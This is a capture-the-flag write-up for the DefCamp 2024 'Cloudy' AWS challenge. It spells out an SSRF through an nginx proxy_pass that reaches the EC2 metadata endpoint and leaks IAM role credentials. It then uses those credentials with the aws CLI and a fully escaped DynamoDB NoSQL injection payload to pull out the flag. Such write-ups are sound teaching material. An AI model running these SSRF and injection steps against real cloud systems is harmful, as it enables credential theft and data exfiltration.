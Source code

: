 # Cloudy

AWS challenge for DefCamp CTF 2024.

## Description

Title: `Cloudy`

Difficulty: `Medium`

Challenge description: `A performant serverless application for storing secrets. Or, are they secrets? Note: The Admin has stored something, too.`

Attachments: `nginx.conf`

## Solution

We can see that the page only interacts with two endpoints, `/bucket/` and
`/lambda/`. The backend (nginx) redirects the traffic to the corresponding
AWS service URL, as can be seen in nginx.conf:

```
    location ~/bucket/(.*)$ {
        resolver 8.8.8.8;
        proxy_pass http://$1.s3.eu-central-1.amazonaws.com/;
    }
```

But the path is unsafely passed to `proxy_pass`, so SSRF can be performed
by simply requesting something like `/bucket/ADDRESS/PATH%3F`. The `%3F` is
needed in order for the following part do be ignored (passed as a get
parameter).

Being an AWS challenge, we can query the metadata endpoint and check for
attached roles. Everything is documented on [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf).

Querying for IAM roles 
(`GET /bucket/169.254.169.254/latest/meta-data/iam/security-credentials/%3F`), 
we can can see a role named `ctf-cloudy-EC2LambdaAccessRole-63H7MkUKN27l`. As 
the name suggests, the role can be used to interact with lambda functions in
the account. Listing the available functions returns:

```
% aws --profile ec2_leak lambda list-functions 
{
    "Functions": [
        {
            "FunctionName": "ctf-cloudy-processor-lambda",
            "FunctionArn": "arn:aws:lambda:eu-central-1:011528296162:function:ctf-cloudy-processor-lambda",
            "Runtime": "python3.10",
            "Role": "arn:aws:iam::011528296162:role/ctf-cloudy-LambdaExecutionRole-2A2kcz2TUsAE",
            ...
            "Environment": {
                "Variables": {
                    "TABLE_NAME": "ctf-cloudy-table"
                }
            },
            ...
        }
    ]
}
```

We can also get the function and download the code from the given URL.
```
% aws --profile ec2_leak lambda get-function --function-name "ctf-cloudy-processor-lambda"
{
    "Configuration": {
        "FunctionName": "ctf-cloudy-processor-lambda",
        "FunctionArn": "arn:aws:lambda:eu-central-1:011528296162:function:ctf-cloudy-processor-lambda",
        "Runtime": "python3.10",
        "Role": "arn:aws:iam::011528296162:role/ctf-cloudy-LambdaExecutionRole-2A2kcz2TUsAE",
        ...,
    "Code": {
        "RepositoryType": "S3",
        "Location": "https://awslambda-eu-cent-1-tasks.s3.eu-central-1.amazonaws.com/snapshots/..."
    }
}
```

Upon inspecting the code, we can see that the function handles files uploaded
to s3 and adds their content to DynamoDB (if they are CSV). The lambda also 
handles the user searches, querying the same database for secrets that were 
previously uploaded. However, the DynamoDB query is susceptible to NoSQL
injection, because the user input is directly passed into the query:

```py
def query_dynamodb(search):
    scan_filter = '''
        {
            "Name": {
                "ComparisonOperator": "EQ",
                "AttributeValueList": [{"S": "%s"}]
            }
        }
    ''' % search

    response = dynamodb.scan(
        TableName=table_name,
        ScanFilter=json.loads(scan_filter)
    )
```

But, the user input is sanitized if the event does not contain the `isRaw`
parameter. That parameter is never set by the function URL (if the lambda is
triggered through HTTP). However, if we attempt to manually invoke the 
function using the role, we can alter the parameters and perform the injection.
So, sending a query like this to the lambda should do the work:

`{"body":"{\"search\":\"INJECT\"}","isRaw":true}'`

We know the flag is somewhere in the database and contains the word `CTF`, so
querying should be simple using the AWS scan filters (documented [here](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/LegacyConditionalParameters.ScanFilter.html)).

Final payload:
`{"body":"{\"search\":\"none\\\\\"}],\\\\\"ComparisonOperator\\\\\": \\\\\"NE\\\\\",\\\\\"AttributeValueList\\\\\": [{\\\\\"S\\\\\": \\\\\"none\\\\\"}]},\\\\\"Secret\\\\\":{\\\\\"ComparisonOperator\\\\\":\\\\\"CONTAINS\\\\\",\\\\\"AttributeValueList\\\\\":[{\\\\\"S\\\\\":\\\\\"CTF\"}","isRaw":true}`

The flag can be retreived by invoking the function:
```
% aws --profile ec2_leak lambda invoke --function-name ctf-cloudy-processor-lambda --payload $(echo '{"body":"{\"search\":\"none\\\\\"}],\\\\\"ComparisonOperator\\\\\": \\\\\"NE\\\\\",\\\\\"AttributeValueList\\\\\": [{\\\\\"S\\\\\": \\\\\"none\\\\\"}]},\\\\\"Secret\\\\\":{\\\\\"ComparisonOperator\\\\\":\\\\\"CONTAINS\\\\\",\\\\\"AttributeValueList\\\\\":[{\\\\\"S\\\\\":\\\\\"CTF\"}","isRaw":true}'|base64) /dev/stdout
{"statusCode": 200, "body": {"result": "CTF{example_flag}"}}
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```